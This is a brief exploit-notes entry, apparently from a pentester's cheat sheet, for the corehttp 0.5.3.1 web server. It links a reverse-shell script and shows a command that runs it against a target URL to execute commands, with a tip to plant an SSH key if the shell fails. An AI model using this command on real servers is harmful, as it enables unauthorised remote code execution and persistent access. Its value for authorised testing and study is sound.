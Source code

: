 # corehttp

## v0.5.3.1

* https://github.com/tobor88/Bash/blob/master/corehttp-rev-shell.sh

```bash
$ ./corehttp-rev-shell.sh -u 'http://IP/dev/foo.pl' -s 'command'
# if shell not working, ssh key in.
```
